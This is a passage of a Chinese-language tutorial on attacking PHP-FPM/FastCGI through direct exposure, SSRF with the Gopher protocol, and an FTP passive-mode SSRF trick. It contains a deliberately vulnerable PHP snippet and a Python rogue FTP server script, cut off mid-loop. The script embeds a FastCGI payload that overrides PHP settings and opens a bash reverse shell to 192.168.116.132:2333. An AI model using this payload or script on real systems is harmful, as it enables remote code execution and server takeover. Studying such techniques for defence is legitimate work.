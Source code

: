 

**利用思路**:因为PHP-FPM暴露在公网我们可以直接与它通信，通过伪造发送一个包含恶意配置的请求包直接给fpm解析。



### 2.SSRF利用FPM/FastCGI

**利用前提:**

- PHP-FPM没有暴露在公网
- 存在一个SSRF漏洞

利用Gopher协议攻击内网中的PHP-FPM服务

什么是Gopher协议？

Gopher是一个信息查找系统，支持发出GET请求和POST请求。[Gopherus](https://github.com/tarunkant/Gopherus)直接生成Payload就可以。

**利用思路**:主要还是能够直接和PHP-FPM通信的问题，伪造的数据包直接交由fpm处理。

### 3.FTP-SSRF攻击FPM/FastCGI

```php
<?php
$contents = file_get_contents($_GET['viewFile']);
file_put_contents($_GET['viewFile'], $contents);
```

`file_get_contents`不支持gopher协议，但是支持ftp协议，根据这个特性我们可以利用ftp的被动模式

```plain
# -*- coding: utf-8 -*-
# @Time    : 2021/1/13 6:56 下午
# @Author  : tntaxin
# @File    : ftp_redirect.py
# @Software:

import socket
from urllib.parse import unquote

# 对gopherus生成的payload进行一次urldecode，不需要前面那一段，因为不是直接对FPM攻击了..
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH107%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00k%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.116.132/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")

payload = payload.encode('utf-8')

host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
```